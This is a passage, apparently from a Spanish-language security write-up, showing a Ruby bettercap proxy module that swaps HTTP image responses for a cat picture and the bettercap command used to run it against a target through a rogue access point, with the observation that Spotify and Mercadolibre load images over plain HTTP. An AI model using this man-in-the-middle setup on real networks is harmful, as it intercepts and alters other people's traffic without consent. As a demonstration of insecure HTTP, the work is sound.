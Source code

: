   # Cat image URL
  @@url = 'http://www.catster.com/wp-content/uploads/2017/08/A-fluffy-cat-looking-funny-surprised-or-concerned.jpg'

  def on_request( request, response )
    if response.content_type =~ /^image\/.*/ and !@@url.include?(request.host)
      BetterCap::Logger.info "[#{'REDIRECT'.green}] Redirecting #{request.to_url} to cat ..."
      response.redirect!(@@url)
    end
  end
end

Básicamente, este plugin captura todas las requests HTTP que devuelven imágenes y la convierte en una imagen de un gato que nosotros especificamos. Pusimos a correr bettercap de la siguiente manera sobre la interfaz de nuestro rogue AP:

bettercap -I wlan0 --proxy-module redirecttocat.rb -T 10.0.0.168 -G 10.0.0.1 --no-spoofing

Luego, utilizando aplicaciones como Spotify o Mercadolibre que utilizan requests HTTP inseguras para imágenes, pudimos obtener resultados como el siguiente al querer ver el carousel de imágenes de una publicación de mercadolibre:
